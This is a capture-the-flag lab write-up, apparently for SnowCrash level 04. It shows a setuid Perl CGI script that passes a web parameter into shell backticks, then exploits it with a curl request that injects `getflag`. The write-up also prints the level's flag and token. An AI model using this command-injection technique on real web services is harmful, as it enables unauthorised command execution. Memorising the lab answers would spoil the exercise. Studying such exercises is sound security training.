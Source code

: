 ## FLAG: `qi0maab88jeaj46qoumi7maus`

## We have a perl script in Home
> ls -l
```
    total 4
    -rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

> cat level04.pl
```
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html\n\n";
    sub x {
    $y = $_[0];
    print `echo $y 2>&1`;
    }
    x(param("x"));
```
## ``# localhost:4747``         script running on `localhost:4747`
## ``x(param("x"));``           1 parameter `x`
## ``print `echo $y 2>&1`;``    Exploit : `echo getflag 2>&1`

------------------------------------------------

## We exploi this using `curl`
> curl localhost:4747?x=\`getflag\`
```
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
